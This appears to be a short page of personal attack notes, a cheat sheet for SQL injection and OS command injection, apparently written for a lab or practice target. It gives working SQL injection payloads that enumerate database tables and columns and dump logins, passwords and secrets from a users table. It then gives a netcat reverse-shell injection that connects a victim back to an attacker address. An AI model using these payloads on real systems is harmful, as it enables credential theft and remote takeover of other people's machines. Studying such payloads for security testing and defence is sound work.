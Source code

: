 ## SQLi

SELECT * FROM whatever WHERE thing LIKE '{input}%'

```
' OR 1=1;-- 
```

MySQL how to get info about tables

```
SELECT table_name FROM information_schema.tables;
```

figuring out number of columns

```
' UNION SELECT 1, 1, 1, 1, 1, 1, 1;-- 
```

combine with above info to retrieve other tables

```
' UNION SELECT  1, 1, table_name, 1, 1, 1, 1 FROM information_schema.tables;-- 
```

find columns from other table

```
' UNION SELECT  1, 1, column_name, 1, 1, 1, 1 FROM information_schema.columns where table_name = 'users';-- 
```

retrieve info from users table

```
' UNION SELECT  1, id, login, password, email, secret, 1 FROM users;-- 
```

## OS Command injection

; can end previous statement

e.g. 

```
; echo "hello world"
```

**reverse shell**

listener (attacker):

```
nc -l -v -p 4444 
```

on victim

```
; nc 10.0.2.15 4444 -e /bin/sh
```

change IP to whatever the IP of the attacker is